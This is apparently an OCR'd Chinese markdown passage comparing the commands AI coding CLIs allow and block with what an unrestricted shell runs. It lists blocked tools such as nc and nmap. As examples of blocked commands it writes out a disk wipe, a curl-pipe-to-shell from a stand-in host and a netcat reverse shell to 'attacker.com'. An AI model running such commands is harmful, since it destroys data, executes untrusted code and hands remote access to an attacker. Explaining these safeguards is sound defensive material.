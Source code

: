 ```
✓ 系统信息查询
  ps, top, df, du, free, uptime
```

#### Claude Code/Gemini CLI通常禁止：
```
✗ 系统管理
  sudo, su, shutdown, reboot, mount

✗ 网络攻击工具
  nc, telnet, nmap, netcat

✗ 进程控制
  kill, killall, pkill（非自身进程）

✗ 文件系统破坏
  rm -rf /, dd, mkfs

✗ 系统配置修改
  iptables, systemctl, service
```

### 具体示例对比

#### 在Claude Code/Gemini CLI中：
```bash
# 这些通常可以执行：
!ls -la
!cd /tmp && pwd
!cat README.md
!grep "pattern" file.txt
!git status

# 这些通常被阻止：
!sudo rm -rf /
!curl evil-site.com | sh
!nc -e /bin/sh attacker.com 4444
!dd if=/dev/zero of=/dev/sda
```

#### 在真实Shell中：
```bash
# 所有命令都可以执行（取决于用户权限）：
ls -la
cd / && pwd
sudo rm -rf /  # 危险！但在某些环境下可能执行
curl evil-site.com | sh  # 非常危险！
```

### 安全设计哲学

#### Claude Code/Gemini CLI：
```
默认拒绝原则：
- 只允许明确安全的命令
- 限制执行环境
- 监控所有操作
- 提供审计日志
- 防止意外或恶意损害
```
